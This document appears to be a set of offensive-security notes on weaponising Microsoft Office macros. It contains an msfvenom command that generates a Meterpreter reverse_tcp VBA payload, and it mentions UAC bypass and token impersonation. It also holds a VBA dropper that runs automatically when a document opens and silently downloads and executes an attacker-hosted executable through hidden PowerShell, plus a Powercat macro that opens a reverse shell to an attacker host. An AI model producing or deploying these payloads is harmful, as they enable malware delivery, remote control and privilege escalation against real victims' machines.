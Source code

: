 **Generate VBA payload with msfvenom**
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.134 LPORT=444 -f vba-exe`
    - `-a` Architecture
    - `-p` payload
    - `f` format
    - It will come two part
        - VBA script that we use as marco
        - The payload, we need to put the payload in the content of document.
    - Set up handler and run the doc file.
- We can use format `-f vba-psh` VBA Powershell
    - After gain meterpreter, we can `search bypassuac` and use `bypassuac_dotnet_profiler` to escalate privilege
        - load incognito and impersonate tokens
    - Use `smb/psexec` set SMBUser and SMBPass with NTLM hash

**Example code for powershell dropper** (Download payload in victim)

First, genrate exe payload and host it with python

```vb
Sub AutoOpen()
    dropper
End Sub

Sub Document_Open()
    dropper
End Sub

Sub dropper()
    Dim url As String
    Dim psScript As String

    url = "http://<host_ip>:8080/shell.exe"

    psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Tmp\file.exe"";" & vbCrLf & "Start-Process -FilePath ""C:\Tmp\file.exe"""

    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```

### Reverse shell with Powercat

[Github Repo](https://github.com/besimorhino/powercat)

- Host the `powercat.ps1` file with `python3 -m http.server 8000`
- Create marco in Word

```vb
Sub powercat()
    Dim url As String
    Dim psScript As String

    url = "http://<host_ip>:8080/powercat.ps1"

    psScript = "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')"

    'Or
    'Change host ip and port to the handler address
    psScript = "IEX (New-Object System.Net.Webclient).DownloadString('" & url & "'); powercat -c <host_ip> -p <host_port> -e cmd"

```